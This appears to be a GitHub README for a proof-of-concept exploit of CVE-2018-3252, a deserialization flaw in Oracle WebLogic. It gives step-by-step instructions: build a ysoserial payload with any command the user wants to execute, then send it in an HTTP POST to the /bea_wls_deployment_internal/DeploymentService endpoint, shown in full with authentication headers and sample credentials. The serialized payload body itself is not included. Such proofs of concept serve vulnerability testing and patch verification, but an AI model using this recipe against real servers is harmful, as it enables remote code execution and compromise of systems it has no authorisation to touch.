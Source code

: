 # CVE-2018-3252-PoC


#### 1.Generate PoC with YSOSERIAL
 
PS: You can change the command in the CVE-2018-3252.java to what you want to execute.

#### 2.You should know the `USERNAME` and `PASSWORD` of the target weblogic server


#### 3.Send the payload to the URL


```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 127.0.0.1:7001
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
wl_request_type: data_transfer_request
username: weblogic
password: admin123
serverName: pyn3rd
deployment_request_id: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.75 Safari/537.36 QQBrowser/4.1.4132.400
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Connection: close
Content-Length: 3334
```
